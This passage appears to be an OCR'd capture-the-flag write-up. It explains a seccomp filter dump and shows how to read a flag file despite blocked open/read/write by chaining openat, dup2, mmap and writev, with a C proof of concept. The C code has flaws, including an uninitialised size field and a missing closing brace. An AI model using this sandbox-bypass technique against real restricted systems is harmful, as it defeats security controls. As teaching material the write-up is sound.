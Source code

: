 ```sh
 0020: 0x15 0x00 0x03 0x00000000  if (A != 0x0) goto 0024
 0021: 0x20 0x00 0x00 0x00000010  A = fd # writev(fd, vec, vlen)
 0022: 0x25 0x00 0x01 0x000003e8  if (A <= 0x3e8) goto 0024
 0023: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0024: 0x06 0x00 0x00 0x00000000  return KILL
 ```

Looking at lines 5 to 16, we can see syscalls that we cannout use. If the syscall is used, KILL is returned and the process will be killed. Unfortunetly for us, some very useful syscalls are blocked. The most straightforward way to print out the contents of a file are using open, read, and write, all of which are blocked! Looking at lines 17 to 22, we can see that writev is not blocked but there are certain restrictions on it. We can use writev, but the file descriptor must be greater than 1000.


### Exploitation Strategy

We need to find alternative syscalls for read, write and open. We can use writev instead of write, and there is another syscall openat() which opens a file at a specific location that we can use instead of open. The tricky part of this challenge was finding a syscall that we can use instead of read as readv and pread are also blocked.

After some playing around, I thought that it would be possible to use mmap, but I wasn't sure. I wrote a small c program that used these 3 syscalls, and created a fake flag file in the same directory to see if it would print it out.


### Proof of Concept in C

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <unistd.h>
#include <sys/uio.h>

int main() {
    struct stat st;
    void *mapped;
    openat(-100,"flag.txt",0);
    dup2(1, 1001);
    mapped = mmap(NULL, 64, PROT_READ, MAP_PRIVATE, 3, 0);
    struct iovec iov[1];
    iov[0].iov_base = mapped;
    iov[0].iov_len = st.st_size;
    writev(1001, iov, 1);
    return 0;
```

Bingo! First we use opeat to open the flag file. We use dup2 to duplicate fd 1 (standard output) to fd 1001. The first argument passed into mmap is the address for the mapping. When null is passed, the system will chose the address. The second argument is the length in bytes. The 5th argument is the file descriptor, which will be 3, the first available file descriptor which was used by openat. The writev syscall writes to multuple buffers that are iovec objects. An iovec object has a base which is the address we want to write to and and length. Here we map our addres that we got from mmap to iov_base.
